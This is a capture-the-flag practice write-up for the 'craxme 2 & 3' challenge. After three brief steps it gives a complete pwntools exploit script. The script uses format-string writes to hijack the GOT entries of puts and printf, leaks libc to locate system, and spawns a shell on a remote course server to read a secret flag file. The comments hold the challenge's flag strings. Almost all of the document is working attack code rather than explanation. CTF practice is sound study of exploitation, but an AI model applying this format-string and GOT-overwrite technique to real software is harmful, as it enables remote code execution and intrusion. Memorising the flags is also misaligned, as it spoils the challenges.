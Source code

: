 # Week 6 practice
## craxme 2 & 3 100
* First `fmt` -> Overwrite `puts` got with `0x400747` for many times of `fmt`, and also leak `libc`.
* Second `fmt` -> Overwrite `printf_GOT` with `system`.
* Third time `printf( Input )` -> `system( Input )` -> `system( "sh" )`

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{JUST CRAXME!@_@}
# FLAG{this is the second flag!!!! >_<}
# FLAG{YOUF0UNDtheSECRETFL4G!?}

e = ELF('./craxme-2da5957de53a93b4bc9ffb4e46c8bf287df0376c')

context.arch = 'amd64'

host , port = 'csie.ctf.tw' , 10134

y = remote(host,port)
#y = process( './craxme' )
#print util.proc.pidof( y )
#raw_input( '...' )

#p = '%.218x%8$n......' + p64(0x60106c)
#p = '%45068c%10$hn%19138c%11$hn......' + p64(0x60106c) + p64(0x60106c + 2)

p = '%11$n%64c%12$hn%1799c%13$hnyuawn%14$s...' + p64( e.got['puts'] + 4 ) + p64( e.got['puts'] + 2 )+ p64( e.got['puts'] ) + p64( e.got['__libc_start_main'] )
y.sendlineafter( ':' , p )

y.recvuntil( 'yuawn' )
__libc_start_main = u64( y.recv(6).ljust( 8 , '\x00' ) )
log.success( '__libc_start_main -> %s' % hex( __libc_start_main ) )
system = __libc_start_main + 0x24c50
log.success( 'system -> %s' % hex( system ) )

print hex( system & 0xffffffff )

a = ( system & 0xffff )
b = ( system & 0xffff0000 ) >> 16

print hex( a ) , hex( b )

sleep( 3 )

if a < b:
    p = '%{}c%12$hn%{}c%13$hn'.format( str( a ) , str( b - a ) )
    p += '.' * ( 40 - len( p ) )
    p += p64( e.got['printf'] ) + p64( e.got['printf'] + 2 )
else:
    p = '%{}c%12$hn%{}c%13$hn'.format( str( b ) , str( a - b ) )
    p += '.' * ( 40 - len( p ) )
    p += p64( e.got['printf'] + 2 ) + p64( e.got['printf'] )

y.sendline( p )

y.sendline( 'sh;' )

sleep( 1 )

y.sendline( 'cat /home/`whoami`/S3cretflag' )

y.interactive()
```